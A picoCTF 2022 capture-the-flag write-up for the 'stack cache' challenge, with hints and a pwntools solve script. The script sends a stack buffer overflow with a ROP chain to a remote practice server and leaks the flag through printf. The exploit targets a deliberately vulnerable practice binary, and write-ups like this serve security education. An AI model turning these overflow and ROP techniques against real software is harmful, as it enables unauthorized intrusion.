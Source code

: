 ## stack cache
![](https://i.imgur.com/X2alqbO.png)

### Hints
1. Maybe there is content left over from stack?
2. Try compiling it with gcc and clang-12 to see how the binaries differ

### Solution by steps
1. `wget` all the files and `strings vuln.c`
2. `vim solve.py` and run it to get the flag
```python
from pwn import *

context.terminal = ["tmux", "splitw", "-h"]
context.arch = "x86"

elf = ELF("./vuln")
rop = ROP(elf)
ret = rop.find_gadget(["ret"]).address

# io = gdb.debug("./vuln", "b *(vuln+56)\nc")
io = remote("saturn.picoctf.net", 57688)
io.sendlineafter(
    b"the flag\n",
    b"a" * 14
    + flat(
        [
            elf.sym["win"],
            # eax will be the address of flag on stack
            # put some ret to prevent flag from being overwritten
            ret,
            ret,
            ret,
            ret,
            ret,
            ret,
            ret,
            ret,
            0x8049EEB,  # mov [esp+4], eax; call printf
            0x80C91F6,  # "%s\n"
        ]
    ),
)
io.interactive()
```

### Useful Stuffs
1. https://blog.maple3142.net/2022/03/29/picoctf-2022-writeups/
